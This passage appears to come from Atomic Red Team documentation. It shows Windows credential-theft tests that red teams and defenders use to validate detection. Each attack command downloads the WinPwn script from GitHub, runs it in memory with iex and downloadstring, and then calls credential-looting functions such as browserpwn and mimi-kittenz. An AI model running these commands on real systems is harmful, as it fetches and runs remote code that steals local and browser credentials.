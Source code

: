 
```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
browserpwn -consoleoutput -noninteractive
```

#### Cleanup Commands:
```powershell
rm .\System.Data.SQLite.dll -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #12 - WinPwn - Loot local Credentials - mimi-kittenz
Loot local Credentials - mimi-kittenz technique via function of WinPwn - Extend timeout to 600s

**Supported Platforms:** Windows


**auto_generated_guid:** ec1d0b37-f659-4186-869f-31a554891611






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
kittenz -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #13 - WinPwn - PowerSharpPack - Sharpweb for Browser Credentials
PowerSharpPack - Sharpweb searching for Browser Credentials technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** e5e3d639-6ea8-4408-9ecd-d5a286268ca0



